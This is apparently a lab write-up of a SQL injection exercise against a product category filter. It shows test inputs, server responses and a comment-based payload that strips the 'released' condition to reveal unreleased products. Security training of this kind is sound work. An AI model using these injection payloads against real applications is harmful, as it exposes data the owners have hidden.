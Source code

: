 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Goal: Cause the application to display one or more unreleased products

### Info: The injection point is the product category filter
`target.com/filter?category=<input>`
### Info: The query is in the form
`SELECT * FROM products WHERE category = '<input>' AND released = 1`

#### **<ins>Step 1: Test injection point</ins>**

category=Gifts'

    500: server error

category=Gifts'--

    200

This confirms that the server is inserting our input directly into the query

#### **<ins>Step 2: Achieve goal</ins>**

category=Gifts'-- OR 1=1--

    Success!